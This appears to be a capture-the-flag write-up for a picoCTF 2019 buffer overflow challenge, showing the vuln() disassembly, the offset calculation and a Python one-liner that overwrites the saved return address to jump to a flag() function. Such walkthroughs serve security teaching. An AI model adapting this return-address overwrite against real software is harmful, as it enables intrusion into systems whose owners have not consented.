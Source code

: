 # Overflow 1

There is a simple get_return_address() call which lets us know when we overflow the return address with our input

```
printf("Woah, were jumping to 0x%x !\n", get_return_address());
```

On taking a look at the disassembly of the vuln() function , we can clearly see that the input we give gets stored on to the buffer at [ebp-0x48]

``` 
8048674:       8d 45 b8                lea    eax,[ebp-0x48]
8048677:       50                      push   eax
8048678:       e8 b3 fd ff ff          call   8048430 <gets@plt>
```
So we need to give an input of 0x48 bytes + 0x4 bytes (to override the saved ebp) + 0x4 bytes (to override the saved eip)

```
arch3r@1nv4d3r:~/p1c0CTF_2019/0v3rflow$ python -c 'print("A"*72+"B"*4+"C"*4)' | ./vuln 
Give me a string and lets see what happens: 
Woah, were jumping to 0x43434343 !
Segmentation fault (core dumped)

```

Now , Instead of 4 C's we add in the address of the flag() function in the little endian format.
```
arch3r@1nv4d3r:~/p1c0CTF_2019/0v3rflow$ python -c 'print("A"*72+"B"*4+"\xe6\x85\x04\x08")' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x80485e6 !
flag{0v3rfl0w_1}
```
and there's the flag..!
